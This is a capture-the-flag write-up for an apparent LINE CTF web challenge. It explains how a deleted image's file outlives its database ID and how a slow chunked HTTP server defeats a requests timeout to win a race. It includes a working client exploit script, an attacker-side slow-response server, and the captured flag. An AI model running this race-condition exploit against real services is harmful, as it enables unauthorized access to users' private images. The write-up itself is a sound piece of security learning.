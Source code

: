 # Bugs

## Bug 1 - Use After Destruct (?) 

- After self-destruct, didn't delete original file(+mosaic file)
- However, ID that referencing the file is deleted on Database.

```python
@app.post('/')
def add_image():
    form = AddImageForm()

    print(form)

    if form.validate_on_submit():
        file = form.image.data
        password = form.password.data
        id_ = form.id.data or uuid4().hex
        image_url = form.image_url.data

        url = __add_image(password, id_, file=file, image_url=image_url)
```
- So, We can make new ID for original file

## Bug 2 - bypass `requests` timeout 

- DB insert is executed after 5 seconds, and the timeout for requests is 3 seconds.
- But, We can ignore the timeout with a slow HTTP response.

```python
def __add_image(password, id_, file=None, image_url=None, admin=False):
    t = Thread(target=convert_and_save, args=(id_, file, image_url))
    t.start()

    # no need, but time to waiting heavy response makes me excited!!
    if not admin:
        time.sleep(5)

    if file:
        mimetype = file.content_type
    elif image_url.endswith('.jpg'):
        mimetype = 'image/jpg'
    else:
        mimetype = 'image/png'

    db.add_image(id_, mimetype, password)

    return urljoin(URLBASE, id_)


def convert_and_save(id, file=None, url=None):
    try:
        if url:
            res = requests.get(url, timeout=3)
            image_bytes = res.content
        elif file:
            image_bytes = io.BytesIO()
            file.save(image_bytes)
            image_bytes = image_bytes.getvalue()
```


# Exploit

- Client

```python
from requests import *

url = "http://35.200.21.52/"
# url = "http://localhost"

url_ = get(f"{url}/trial").json()['url']
print(url_)

id_ = url_.split("/")[-1]
print(id_)

get(url_)

print('sleep..')
import time
time.sleep(11)
print('done')
form = {'password':'1234','id':id_, 'image_url':"http://cau.0wn.kr:443/b.png"}
r = post(f"{url}", data=form)
print(r.text)

time.sleep(5)

print("go")
```

- Server

```python
import socketserver
import time


response_data = '''HTTP/1.1 200 OK
Server: Apache
Keep-Alive: timeout=2, max=200
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: text/xml'''.replace('\n', '\r\n')

class MyTCPHandler(socketserver.BaseRequestHandler):
    def handle(self):
        while True:
            data = self.request.recv(1024).decode('utf-8')
            if data == "": continue
            print('[recv] ', data)

            for data in response_data:
                self.request.send(data.encode())
                time.sleep(1) # make delay


if __name__ == "__main__":
    HOST, PORT = "0.0.0.0", 443
    with socketserver.TCPServer((HOST, PORT), MyTCPHandler) as server:
        server.serve_forever()
```

- **Flag: LINECTF{db3b30d05eb5e625a50a3925a35810f2}**